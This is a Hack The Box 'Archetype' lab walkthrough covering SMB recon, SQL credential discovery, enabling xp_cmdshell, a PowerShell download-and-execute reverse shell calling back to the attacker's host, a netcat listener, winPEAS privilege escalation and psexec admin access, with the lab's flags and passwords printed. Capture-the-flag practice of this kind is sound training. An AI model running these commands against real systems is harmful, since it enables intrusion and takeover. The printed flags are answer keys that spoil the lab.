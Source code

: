 # [HTB] Archetype
> [reference](https://systemweakness.com/archetype-hackthebox-walkthrough-be99a1fba8ea)

## details
- Hostname: `Archetype`
- IP: `10.129.185.22`

## recon
- [nmap scan](./nmap.log)
	- cmd: `nmap -sC -sV -A -o nmap.log [Target_IP]`
	- open smb (p139 & p445) and sql server (Microsoft SQL Server 2017)
	- windows os detected

- smb _guest_ login allowed (`smbclient -L [Target_IP]`)
	- shared folders: `ADMIN$`, `backups`, `C$`, `IPC$`
	- found `prod.dtsConfig` in `backups`
		- found `Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc` (probable _sql logins_)

- using an __impacket__ script for connecting
	- cmd: `python3 /opt/impacket/examples/mssqlclient.py Archetype/sql_svc@[Target_IP] -windows-auth`
	- got access to the sql server!

- check what priv we have `SELECT is_srvrolemember('sysadmin');` (1=T)
- `xp_cmdshell` can be exploited to gain reverse shell (reference: [1](https://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver16), [2](https://learn.microsoft.com/en-us/sql/database-engine/configure-windows/xp-cmdshell-server-configuration-option?view=sql-server-ver16))
- type following cmds (to enable _xp_cmdshell_):
```
EXEC sp_configure 'show advanced options',1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell',1;
RECONFIGURE;
```

- `python3 -m http.server` on attacker machine (req. for _rev sh_ & _winpeas_)

- now lets get a __reverse shell__
	- download [powershell_reverse_shell.ps1](https://gist.githubusercontent.com/egre55/c058744a4240af6515eb32b2d33fbed3/raw/2c6e4a2d6fd72ba0f103cce2afa3b492e347edc2/powershell_reverse_shell.ps1) (attacker machine)
	- `nc -lvnp 4444` (attacker machine)
	- `xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://[Your_tun0_IP]:8000/powershell_reverse_shell.ps1\");"` (sql cmdline)
	- got rev shell!

 - using [`winpeas`](https://github.com/carlospolop/PEASS-ng/releases/)
 	- exec `powershell` > `wget http://[Your_tun0_IP]:8000/winPEASx64.exe -outfile winPEASx64.exe` > `./winPEASx64.exe`
 	- found `C:\Users\sql_svc\Desktop\user.txt: 3e7b102e78218e935bf3f4951fec21a3`
 	- found `C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt`
	- cmd: `type C:\<path>\ConsoleHost_history.txt`
		- got `net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!`

- to login we need `psexec.py`
	- cmd: `python3 /opt/impacket/examples/psexec.py administrator@[Target_IP]`
	- got admin access!
	- found `C:\Users\Administrator\Desktop\root.txt` > `b91ccec3305e98240082d4474b848528`

